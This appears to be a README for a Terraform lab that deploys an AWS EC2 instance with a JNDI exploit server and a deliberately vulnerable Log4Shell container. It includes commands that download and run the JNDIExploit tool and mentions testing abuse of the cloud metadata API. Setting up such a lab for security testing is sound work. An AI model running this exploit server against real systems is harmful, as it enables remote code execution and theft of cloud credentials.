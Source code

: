 

## Customize this deployment

### Credentials 
- `provider.tf` file should outline path to aws config file along with the named profile you want to use.

- Input the public key you want to use to connect to the EC2 instance in the `variables.tf` file as the value of `public_key`.

### Naming Things 
- Change the value of `deployment_prefix` variable to change the name of the resources deployed.  If you don't change this all your AWS resoures will be named in my honor.


## Steps to Deployment

- Ensure you have a valid aws session credential
	``aws sso login --profile [named-prodile]``

- Terraform
	`terraform plan`
	`terraform apply --auto-approve`

## Connecting to your EC2 Instance

- You can use EC2 Instance Connect (SSH from the Browser) to connect to your EC2 instance. Ingress rules allowing this are include in the deployment
- If you configured a public key for the EC2 instance and allowed your IP in the security groups, you can directly SSH to the EC2 instance

## Getting the Java Exploit Server choochin'

Installation of the java server and environment during deployment is not working.  Once your EC2 is up and running, you'll want to install the following:
- `sudo yum install java-1.8.0-openjdk -y`
- `wget http://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
- `unzip JNDIExploit.v1.2.zip`
- `MY_IP=$(hostname -I | awk '{print $1}')`
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $MY_IP -p 8888`

The JNDI Exploit Server needs to be running and receiving callbacks from the vulnerable docker container.

## Vulnarable Docker Container
This container will be listenting on 127.0.0.1:8080.
If you want to install curl in the container for testing the abuse of the metadata api:
`sudo docker exec vulnerable-app apk add curl`

## Testing Exploits

Instructions for starting and operating the [JNDI Exploit Server](http://web.archive.org/web/20211210111026/https://github.com/feihong-cs/JNDIExploit)

Instructions operating against the [vulnerable docker container](https://github.com/christophetd/log4shell-vulnerable-app)








